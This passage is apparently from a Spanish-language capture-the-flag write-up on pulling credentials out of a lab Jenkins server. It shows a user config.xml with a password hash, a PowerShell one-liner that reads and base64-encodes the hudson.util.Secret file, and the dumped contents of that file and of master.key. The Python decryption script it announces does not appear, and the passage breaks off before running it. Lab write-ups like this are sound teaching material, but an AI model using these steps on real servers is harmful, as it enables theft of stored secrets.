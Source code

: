 ~~~xml
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
~~~

Para extraer las contraseñas podemos utilizar el siguiente script en python


Debemos descargar dos archivos 

- master.key 
- hudson.util.Secret

Como este ultimo es un binario, lo convertiremos a base64 y luego lo decodificaremos y guardaremos en nuestro sistema:

~~~
powershell -c [convert]::ToBase64String((cat C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret -Encoding byte))
~~~

hudson.util.Secret

~~~
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
~~~

master.key

~~~
ZjY3M2ZkYjBjNGZjYzMzOTA3MDQzNWJkYmUxYTAzOWQ4M2E1OTdiZjIxZWFmYmI3ZjliMzViNTBmY2UwMDZlNTY0Y2ZmNDU2NTUzZWQ3M2NiMWZhNTY4YjY4YjMxMGFkZGM1NzZmMTYzN2E3ZmU3MzQxNGE0YzZmZjEwYjRlMjNhZGM1MzhlOWIzNjlhMGM2ZGU4ZmMyOTlkZmEyYTM5MDRlYzczYTI0YWE0ODU1MGIyNzZiZTUxZjkxNjU2Nzk1OTViMmNhYzAzY2MyMDQ0ZjNjNzAyZDY3NzE2OWUyZjRkM2JkOTZkODMyMWEyZTE5ZTJiZjBjNzZmZTMxZGIxOQ==
~~~

Descodificamos los archivo y ejecutamos el script:
